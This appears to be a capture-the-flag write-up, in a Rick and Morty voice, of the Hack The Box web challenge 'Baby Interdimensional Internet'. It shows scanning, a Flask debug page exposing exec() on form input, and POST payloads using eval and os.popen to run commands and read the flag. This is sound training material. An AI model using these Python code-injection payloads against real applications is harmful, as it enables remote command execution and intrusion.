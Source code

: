 ```yaml
---
title: HTB - Baby Interdimensional Internet
tags: [Hacking, HTB, Security, Web, Python, Medium-ish, Retired]
style:
color:
description: Here is my write up for the challenge Baby Interdimensional Internet via HTB.
---
```


Geez Rick, this challenge kinda pissed me off.

Yea Morty, I feel you. It was like right there, right there in front our faces Morty. In front of our damn faces!!

## 1. Enumeration

Alright, first things first, lets kick off some scans while we browse the web page.

`nikto -h http://142.93.45.112:32113`

`dirb http://142.93.45.112:32113 -r`

While those were running, I went ahead and started browsing the page.
![landing page](../images/bii_main.png "landing page")

At first it appeared as though there was nothing too special about the site. After refreshing it, I noticed the number changed under the picture of the two interdimensional travelers.
![landing page new](../images/bii_main2.png "landing page new")

So this lets me know the page is not necessarily static, but is being dynamically generated somehow. Also, my scans were taking forever and nothing was really returning, so I stopped those.

Lets turn to our trusty developer tools via Firefox and see if we can get anything new from there.

Well why dont ya look at that, looks like we might have something at `/debug`
![possible lead](../images/bii_debug.png "possible lead")

Also noticed the response from the server...
![maybe flask](../images/bii_flask.png "maybe flask")

So it looks like we have some Flask involved, and after navigating to `http://142.93.45.112:32113/debug/`, Flask is confirmed. With the confirmation of Flask runnin, it  just lets us know its a Python based web server.
![debug](../images/bii_debug2.png "debug")

## 2. Exploiting Python Exec

First thing that stands out after reviewing the debug page is in the function `calc`. But we cant get ahead of ourselves so we keep looking at the code.

```
def calc(recipe):
  global garage
  garage = {}
  try: exec(recipe, garage)
  except: pass
```
Further investigation of the code reveals that the number seen on the landing page is randomly generated on the first two lines within the `federation` function. A line down, we see a condition involving a `POST` request.

```
if request.method == 'POST':
            ingredient = request.form.get('ingredient', '')
            recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
```
It appears if we submit a `POST` request and supply values to both the `ingredient` and `measurements` parameters, we can control the number that appears on the main page. After intercepting and modifying the request via Burp, we have successfully taken control of the number.

```
POST / HTTP/1.1
Host: 142.93.45.112:32113
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://142.93.45.112:32113/
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Connection: close
Upgrade-Insecure-Requests: 1

ingredient=plumbus&measurements=137
```
![im the captain now](../images/bii_igotit.png "im the captain now")

Now its time to see if we can get some code execution on the box. Lets change the `measurements` variable since, it appears to be the varible thats getting supplied to the webpage.

```
ingredient=plumbus&measurements=eval('__import__(\'os\').popen(\'ls\').read()')
```
Before we go forward, lets talk about why I supplied the value I did. So first, I tried supplying commands straight into the `measurements` parameter but I kept getting a blank page back. Sooooo, after some digging, I found that while the `exec()` might be able to execute code, it doesnt return the result , unless specified, like `eval()` does. Heres some links talkin about it:
-[Kinda Explanin](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1)
-[Kinda Deep Explanation](https://www.code-learner.com/what-is-the-differences-between-python-eval-and-exec-function/)

Back to this walkthrough, we have remote code execution Morty.
![rce](../bii_rce.png "rce baby")

Now lets switch up the command. Gonna just read the flag since it returned in the last POST request.
```
ingredient=whoami&measurements=eval('__import__(\'os\').popen(\'cat+flag\').read()')
```
![the flag](../bii_flag.png "flag")

## 5. Conclusion
